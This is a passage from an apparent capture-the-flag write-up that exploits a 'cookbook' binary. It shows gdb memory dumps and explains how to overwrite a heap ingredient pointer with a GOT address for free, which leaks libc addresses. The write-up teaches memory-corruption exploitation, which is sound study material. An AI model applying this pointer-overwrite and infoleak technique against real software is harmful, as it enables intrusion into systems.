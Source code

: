 ```
EIP: 0xf7fd7c89 (<__kernel_vsyscall+9>:	pop    ebp)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7fd7c83 <__kernel_vsyscall+3>:	mov    ebp,esp
   0xf7fd7c85 <__kernel_vsyscall+5>:	sysenter 
   0xf7fd7c87 <__kernel_vsyscall+7>:	int    0x80
=> 0xf7fd7c89 <__kernel_vsyscall+9>:	pop    ebp
   0xf7fd7c8a <__kernel_vsyscall+10>:	pop    edx
   0xf7fd7c8b <__kernel_vsyscall+11>:	pop    ecx
   0xf7fd7c8c <__kernel_vsyscall+12>:	ret    
   0xf7fd7c8d:	nop
[------------------------------------stack-------------------------------------]
0000| 0xffffce28 --> 0xffffce78 --> 0x9 ('\t')
0004| 0xffffce2c --> 0x1 
0008| 0xffffce30 --> 0xf7fae5e7 --> 0xfaf87c0a 
0012| 0xffffce34 --> 0xf7ed03e3 (<read+35>:	pop    ebx)
0016| 0xffffce38 --> 0xf7fac300 --> 0x0 
0020| 0xffffce3c --> 0xf7e6362f (<_IO_file_underflow+303>:	add    esp,0x10)
0024| 0xffffce40 --> 0x0 
0028| 0xffffce44 --> 0xf7fae5e7 --> 0xfaf87c0a 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGINT
0xf7fd7c89 in __kernel_vsyscall ()
gdb-peda$ x/40wx 0x804f2b0
0x804f2b0:	0x00000002	0x00000001	0x30303030	0x00000000
0x804f2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f2e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f2f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f300:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f310:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f320:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f330:	0x00000000	0x00000000	0x00000000	0x35393837
0x804f340:	0x3832000a	0x00000011	0x0804f2b0	0x00000000
```

So we can see that the pointer to our new ingredient is at `0x804f348`, and is within the range of the write we get for making instructions which starts at `0x804f33c`. So using this, we can overwrite the pointer for this new ingredient by writing `'0'*12 + x` where x is the value we are replacing the pointer with.

Now with this we can get another infoleak, this time to libc. Looking at the `print_ingredient_properties()` function we can see that it is expecting a pointer to print out. We should be able to overwrite the ingredient pointer with a GOT table address for a libc function, which will store the actual libc address for that function. Because of this, when we trigger the option for listing the ingredients, it will print out that libc address, plus two other address 4 and 8 bytes down.

Let's find a got address for the function `free`:

```
$	readelf --relocs ./cookbook | grep free
0804d018  00000407 R_386_JUMP_SLOT   00000000   free@GLIBC_2.0
```
